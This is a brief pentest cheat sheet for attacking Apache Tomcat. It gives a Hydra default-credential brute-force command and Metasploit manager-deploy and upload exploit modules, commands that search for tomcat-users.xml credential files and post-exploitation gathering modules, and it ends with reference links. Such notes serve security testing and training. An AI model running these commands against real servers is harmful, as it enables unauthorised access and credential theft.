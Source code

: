 # Apache Tomcat

`$ hydra -C Seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://<IP>:<PORT>/manager/html`

```
msf > exploit/multi/http/tomcat_mgr_deploy

msf > use exploit/multi/http/tomcat_mgr_upload
```

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/tomcat_mgr_deploy.md

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/tomcat_mgr_upload.md

[VK9 Security: Apache Tomcat Manager .war reverse shell](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)

```
$ find / -name "tomcat-users.xml" 2>/dev/null

$ find / -name "tomcat-users.xml" 2>&1
```

`meterpreter > run post/windows/gather/enum_tomcat`

`msf > use post/multi/gather/tomcat_gather`

https://viperone.gitbook.io/pentest-everything/everything/ports/ports-8080-8180-apache-tomcat

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/gather/tomcat_gather.md

---
## References

- [Hacktricks: Tomcat](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat)

- [Hacking Articles: Tomcat Penetration Testing](https://www.hackingarticles.in/tomcat-penetration-testing/)

https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote
